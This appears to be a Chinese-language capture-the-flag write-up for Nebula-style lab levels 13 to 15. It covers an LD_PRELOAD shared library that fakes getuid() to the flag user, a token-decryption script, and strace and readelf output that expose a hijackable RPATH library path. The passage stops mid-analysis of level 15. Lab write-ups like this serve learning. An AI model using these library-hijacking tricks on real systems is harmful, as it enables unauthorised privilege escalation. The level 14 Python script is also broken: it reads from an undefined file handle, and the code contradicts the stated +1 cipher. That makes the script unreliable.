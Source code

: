 这道题目是为了exploit`getuid()`函数，我们可以通过`LD_PRELOAD`预先加载我们自己的链接文件，劫持原本的`getuid()`函数。

``` c
int getuid()
{
	return 1000;
}
```

将它编译为动态链接文件，并执行：

	$ gcc -shared -o getuid.so getuid.c
	
	$ LD_PRELOAD=~/getuid.so /home/flag13/flag13

执行发现没有效果，发现**LD_PRELOAD要生效，所执行的程序的owner必须是该用户**，所以将flag13文件copy一下即可：

![Level13](level13_1.png)



## Level14

此题略微试探一下即可发现其加密逻辑：从第0个字符开始，每个字符的ascii对应加1即为密文。直接编写脚本解密：

``` python
#!/usr/bin/python

plain = ''

with open('/home/flag14/token', 'r'):
    cipher = f.read()[:-1]
    for i in range(len(cipher)):
        plain += chr(ord(cipher[i]) - i)

print plain
```



## Level15

按照题目提示，`strace`来监控flag15程序的系统调用，在输出中发现：

	open("/var/tmp/flag15/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)

程序试图打开一个不存在的文件，观察文件名像是动态链接文件，查看flag15的相关信息：

	$ readelf -d flag15
	
	Dynamic section at offset 0xf20 contains 21 entries:
	  Tag        Type                         Name/Value
	 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
	 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]
	 ......
